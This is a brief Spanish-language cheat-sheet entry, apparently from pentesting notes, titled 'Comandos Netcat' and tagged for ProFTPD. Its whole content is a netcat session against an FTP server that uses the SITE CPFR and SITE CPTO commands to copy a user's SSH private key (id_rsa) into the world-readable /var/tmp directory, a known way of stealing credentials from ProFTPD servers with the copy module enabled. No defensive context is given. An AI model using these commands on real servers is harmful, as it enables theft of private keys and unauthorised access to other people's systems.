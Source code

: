 # Comandos Netcat 

Tags: #Netcat #ProFTPD

## ProFTPD

```bash 
❯ nc <IP> 21                                        # Nos conectamos al server ProFTPD con Netcat 
	❯ SITE CPFR /home/kali/.ssh/id_rsa             # Copiamos el 'id_rsa' en la ruta donde se encuentra 'CPFR = Copy From'
	❯ SITE CPTO /var/tmp/id_rsa                    # Depositamos la 'id_rsa' en ese dir 'CPTO = Copy To'
```